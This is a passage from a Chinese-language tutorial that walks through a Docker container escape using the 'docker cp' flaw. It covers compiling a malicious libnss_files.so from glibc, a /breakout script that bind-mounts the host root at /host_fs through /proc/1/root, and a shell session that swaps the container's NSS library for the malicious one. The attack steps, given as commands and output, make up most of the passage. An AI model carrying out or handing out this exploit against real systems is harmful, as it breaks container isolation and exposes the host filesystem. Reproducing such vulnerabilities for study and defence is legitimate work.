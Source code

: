 ```
apt install bison
apt install gawk
```

之后执行一遍命令就不会报错了

我们`make`下

要在/root/gnu/glibc-build/目录下执行

第一次编译`Glibc`需要一些时间，后面再次编译就会快很多。编译结束后，`glibc-build/nss/libnss_files.so`就是我们需要的恶意动态链接库文件。

##### 实现逃逸

现在，我们已经构造好恶意的动态链接库文件`libnss_files.so`。在存在漏洞的dokcer环境中，如果用户执行了docker cp，后台的`docker-tar`进程在执行了chroot命令后一旦加载恶意文件`libnss_files.so`，那么容器内/breakout脚本就会以`docker-tar`身份执行。

由于`docker-tar`已经切换了根目录，但还没有加入容器的命名空间，考虑在/breakout中执行挂载操作，由`docker-tar`将宿主机根目录挂在到容器内的`/host_fs`路径。这样就实现了文件系统层面的容器逃逸。

1. 将此脚本拷贝到容器根目录，并给它加上777权限

   ```
   #!/bin/bash
   
   umount /host_fs && rm -rf /host_fs
   mkdir /host_fs
   
   
   mount -t proc none /proc     # mount the host's procfs over /proc
   cd /proc/1/root              # chdir to host's root
   mount --bind . /host_fs      # mount host root at /host_fs
   
   ```

2. 将容器内原有的libnss_file.so拷贝到容器根目录并重命名

3. 用构建好的libnss_files.so库替换原有正常库(记得改名)

```
root@513601b08ff9:/# chmod 777 breakout
root@513601b08ff9:/lib/x86_64-linux-gnu# ls -l | grep libnss_files
-rw-r--r--  1 root root   51832 Dec 16  2020 libnss_files-2.31.so
lrwxrwxrwx  1 root root      20 Dec 16  2020 libnss_files.so.2 -> libnss_files-2.31.so
root@513601b08ff9:/lib/x86_64-linux-gnu# cp libnss_files-2.31.so /original_libnss_files.so.2
root@513601b08ff9:/lib/x86_64-linux-gnu# rm ./libnss_files.so.2
root@513601b08ff9:/# mv libnss_files.so /lib/x86_64-linux-gnu/libnss_files.so.2
root@513601b08ff9:/# ls
bin       dev   lib    libx32  opt                         root  srv  usr
boot      etc   lib32  media   original_libnss_files.so.2  run   sys  var
breakout  home  lib64  mnt     proc                        sbin  tmp


```
